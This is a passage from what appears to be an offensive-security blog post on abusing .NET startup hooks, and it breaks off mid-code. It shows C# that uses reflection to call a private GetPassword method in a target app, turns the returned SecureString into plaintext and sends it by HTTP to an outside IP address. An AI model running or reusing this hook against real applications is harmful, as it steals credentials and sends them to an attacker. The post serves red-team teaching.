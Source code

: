 ![](https://i0.wp.com/rastamouse.me/wp-content/uploads/2023/01/Screenshot-2023-01-02-195629-1024x184.png?resize=1024%2C184&ssl=1)

Another possibility is to use reflection and call internal methods within the hooked application. Here’s a contrived example where DemoApp has a private method called `GetPassword` which returns a `SecureString`. The actual implementation does not matter – let’s just assume we can’t recover it using static analysis alone.

```
namespace DemoApp;

internal static class Program
{
    public static async Task Main(string[] args)
    {
        while (true)
        {
            var date = DateTime.UtcNow;
            Console.WriteLine($"The time is {date:T}.");

            await Task.Delay(new TimeSpan(0, 0, 10));
        }
    }

    private static SecureString GetPassword()
    {
        // implementation does not matter
    }
}
```

This code will obtain a reference to this method, call it, recover the plaintext password, and then exfiltrate it to ourselves over HTTP.

```
using System.Reflection;
using System.Runtime.InteropServices;
using System.Security;

internal class StartupHook
{
    public static async void Initialize()
    {
        var asm = Assembly.GetEntryAssembly();
        var program = asm?.GetType("DemoApp.Program");
        var method = program?.GetMethod("GetPassword", BindingFlags.NonPublic | BindingFlags.Static);

        var password = method?.Invoke(null, Array.Empty<object>());

        if (password is SecureString pass)
        {
            var plaintext = ConvertToString(pass);
            using var client = new HttpClient();
            await client.GetAsync($"http://172.18.227.121:8000?pass={plaintext}");
        }
    }

    private static string ConvertToString(SecureString ss)
    {
        var bstr = Marshal.SecureStringToBSTR(ss);

        try
        {
            return Marshal.PtrToStringBSTR(bstr);
        }
```